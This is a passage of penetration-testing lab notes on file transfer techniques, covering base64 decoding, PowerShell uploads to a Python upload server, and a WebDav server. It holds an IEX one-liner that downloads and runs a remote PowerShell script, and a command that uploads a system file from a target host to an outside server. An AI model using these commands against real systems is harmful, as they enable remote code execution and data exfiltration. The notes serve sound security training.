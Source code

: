 You can then copy the bas64 encoded string and decode it onto your machine.
```
echo BASE64_HASH | base64 -d > file_name
```
#### Powershell Web Uploads
PowerShell doesn't have a built-in function for upload operations, but we can use Invoke-WebRequest or Invoke-RestMethod to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

For the web-server,we can use uploadserver, a python module that includes a file upload page.

__installing;__
```
pip3 install uploadserver
```
__Running the web-server__
```
python3 -m uploadserver
```
With that, we can use a PowerShell script PSUpload.ps1 which uses Invoke-WebRequest to perform the upload operations. The script accepts two parameters -File, which we use to specify the file path, and -Uri, the server URL where we'll upload our file. 

We can then upload a file to our server from the target host.
```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
### PowerShell Base64 Web Upload
![image](https://user-images.githubusercontent.com/99975622/222544510-7f0e7893-d223-4e9f-85e6-970af821c5e9.png)
### SMB Uploads
Note that we can run smb over HTTP/HTTPS with WebDav.

WebDav is an extension of HTTP, the internet protocol that web-browsers and web-servers use to communicate with each other.

The WebDav protocol enables a web-server to behave like a file server, supporting collaborative content authoring. 

When using SMB, it will first attempt to connect using the SMB protocol and if there's no SMB share available, it will try to connect using HTTP.

#### Configuring WebDav Server...
we need to install the python modules on our system...
```
sudo pip install wsgidav cheroot
```
#### Usage...
```
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
We can then store our files in the /tmp directory.
